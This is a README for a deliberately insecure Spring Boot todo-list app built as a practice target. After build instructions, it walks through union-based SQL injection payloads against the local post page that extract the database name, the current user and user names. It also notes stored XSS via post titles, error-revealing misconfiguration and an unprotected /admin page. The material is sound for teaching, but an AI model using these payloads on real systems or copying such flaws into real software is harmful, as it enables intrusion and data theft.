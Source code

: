 # Non-Secure TodoList

Todo list have got existing vulnerability

## Getting Started


### How to Run

#### Build Spring Boot Project with Maven
To be able to run your Spring Boot app you will need to first build it. To build and package a Spring Boot app into a single executable Jar file with a Maven, use the below command. You will need to run it from the project folder which contains the pom.xml file.
  ```
  maven package
  ```
  or you can also use
  ```
  mvn install
  ```
  
#### Run Spring Boot app with java -jar command
To run your Spring Boot app from a command line in a Terminal window you can you the java -jar command. This is provided your Spring Boot app was packaged as an executable jar file.  

 ```
 java -jar target/todolist-0.0.1-SNAPSHOT.jar
 ```

#### Run Spring Boot app using Maven
You can also use Maven plugin to run your Spring Boot app. Use the below example to run your Spring Boot app with Maven plugin
  
  ```
  mvn spring-boot:run
  ```
  
  for windows
  ```
  mvnw spring-boot:run
  ```


## Running the tests

- Project will start on 8080 port and you can access localhost:8080
- You must register for add post

### SQL INJECTION

- After adding article , go to article detail page for sql injection (lhttp://localhost/post/1)
- Some sql injection script ()

```
  http://localhost:8080/post/1 order by 6--
```

Now we will use Union select statement over here.

```
  http://localhost:8080/post/-1 order by 6--
```

Here a small understanding of the web application is required, If you see any of these numbers printed in the webpage or the title or anywhere else then you can know the the developer is printing multiple rows

| Variable/Function  | Output |
| ------------- | ------------- |
| @@hostname  | Current Hostname  |
| @@tmpdir  | Tept Directory  |
| @@datadir  | Data Directory  |
| @@version  | Version of DB  |
| @@basedir  | Base Directory  |
| user()  | Current User  |
| database()  | Current Database  |
| version()  | Version  |
| schema()  | current Database  |
| UUID()  | System UUID key  |
| current_user()  | Current User  |
| system_user()  | Current System User  |
| session_user  | Current Session User  |
| @@GLOBAL.have_symlink  | Check if Symlink Enabled or Disabled  |
| @@GLOBAL.have_ssl  | Check if it have ssl or not  |


As we know that third is the column which is getting printed so now we will use the above functions on place of that columns only.

```
To get the Current Database Name
http://localhost:8080/post/-1 union select 1,2,database(),4,5,6--
```

```
To get the Current User
http://localhost:8080/post/-1 union select 1,2,user(),4,5,6--
```

Query : Select column1 from tablename

```
http://localhost:8080/post/-1 union Select 1,2,concat(USER_NAME),4,5,6 from User limit 0,1--

```

This allows access to other user information.

### Cross Site Scripting (XSS)

### Stored/Persistent XSS
 Where the malicious string originates from the website's database.
 
 -You can add scripting code into post title input then you execute this code.
 
## FINAL PROJECT UPDATE
 
### Security Misconfiguration

You can enter post detail page and put quotes after the url and site shows you vulnerability on screen

### Broken Access Control

if you create new user ,you can try to access /admin page and you see this user access this url becouse of there is no 'OPA' control 




